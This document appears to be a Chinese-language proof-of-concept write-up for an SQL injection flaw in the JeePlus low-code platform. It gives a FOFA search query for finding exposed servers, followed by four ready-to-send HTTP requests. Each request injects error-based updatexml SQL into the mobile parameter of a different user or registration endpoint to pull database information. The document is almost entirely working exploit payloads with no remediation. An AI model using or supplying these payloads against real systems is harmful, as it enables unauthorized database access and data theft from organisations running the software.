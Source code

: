 ## JeePlus低代码开发平台存在SQL注入漏洞

## fofa
```
app="JeePlus"
```
/a/login;JSESSIONID=ef8c3f5587fd4e9abbac730443364d1e
![image](https://github.com/user-attachments/assets/7f812b3b-2772-470e-ada6-107673bf8d65)
## poc
```
GET /a/sys/user/validateMobile?&mobile=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+md5%281%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```


## poc2
```
GET /a/sys/user/validateMobileExist?&mobile=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+md5%281%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271 HTTP/1.1
Host: 0.03.614.230:8282
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Cookie: jeeplus.session.id=a24d6e112a864ef795cce1f664a6022a;
```

## poc3
```
/a/sys/register/registerUser?roleName=wangba&mobile=13300990099'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))%23&randomCode=2131&loginName=test1&password=123123&confirmNewPassword=123123&ck1=on
```

## poc4
```
/a/sys/user/resetPassword?mobile=13588888888'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))%23
```
